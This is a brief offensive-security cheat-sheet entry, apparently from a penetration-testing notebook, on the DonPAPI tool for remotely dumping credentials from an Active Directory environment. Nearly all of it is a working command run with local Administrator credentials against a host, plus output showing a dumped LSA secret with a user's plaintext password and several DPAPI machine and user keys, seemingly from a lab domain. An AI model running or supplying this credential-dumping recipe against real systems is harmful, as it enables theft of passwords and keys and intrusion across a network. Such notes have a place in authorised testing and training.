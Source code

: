 # DonPapi

* DonPapi is a tool used to remotely dump credentials from an AD enviroment&#x20;

```
proxychains python3 DonPAPI.py -local_auth Administrator:fbkj8deR@10.10.121.107
INFO [10.10.121.107]  [+] Dumping LSA Secrets
INFO [10.10.121.107] [+]  LSA :  testlab.local\epugh : Passwrd2017123 
INFO [10.10.121.107] [-] Found DPAPI Machine key : 0x7128b9eca864ea503bb1efb50ce803588dcf9662
INFO [10.10.121.107] [-] Found DPAPI User key : 0x4f2b5c6dff20964ecf76b8015d860968f7035ce2
INFO [10.10.121.107] [-] Found DPAPI Machine key : 0x6dafe0bdd0b11149bb70926ec96fbd3262b26928
INFO [10.10.121.107] [-] Found DPAPI User key : 0x8adecef5c32354a2dbfd1f640876f251c5e8688b
```
